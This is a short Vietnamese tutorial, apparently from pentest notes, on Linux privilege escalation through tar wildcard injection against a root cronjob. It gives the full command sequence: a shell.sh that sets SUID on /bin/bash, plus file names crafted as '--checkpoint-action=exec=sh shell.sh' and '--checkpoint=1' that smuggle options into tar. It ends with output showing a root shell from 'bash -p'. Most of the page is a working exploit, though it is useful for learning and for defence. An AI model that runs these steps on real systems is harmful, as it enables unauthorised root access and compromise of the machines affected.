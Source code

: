 Với một số tool nén file như `tar`, `zip`, `rync` và `7z`, có options cho phép chạy câu lệnh hệ thống, và đây là điều xảy ra khi thay tên file thành các options đó.

Ví dụ, có một cronjob như sau:

```console 
$ cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"
...
...
*/3 * * * * root /opt/backup.sh
```

Check perms của `/opt/backup.sh`:

```console 
$ ls -l /opt/backup.sh
-rwxr--r-- 1 root root 63 Aug 30 15:49 backup.sh
```

Nội dung của `/opt/backup.sh`:

```console 
$ cat /opt/backup.sh
#!/bin/bash

cd /var/www/html
tar -cf /opt/backup/backup.tgz *
```

Exploit:

```console
$ cd /var/www/html
$ echo -e '#/!bin/bash\nchmod +s /bin/bash' > shell.sh
$ echo "" > "--checkpoint-action=exec=sh shell.sh"
$ echo "" > --checkpoint=1
```

Lúc này trong `/var/www/html` sẽ có 3 file như sau:

```console 
$ ls
...
...
'--checkpoint=1'
'--checkpoint-action=exec=sh shell.sh'
...
...
shell.sh
```

Đợi khoảng 3 phút, ta thấy `bash` đã được set SUID:

```console
$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 28 01:40 /bin/bash
```

Đến bước này chỉ cần:
```console
$ /bin/bash -p

bash-5.1# id
uid=1000(user) gid=1003(user) euid=0(root) egid=0(root) groups=0(root),...
```
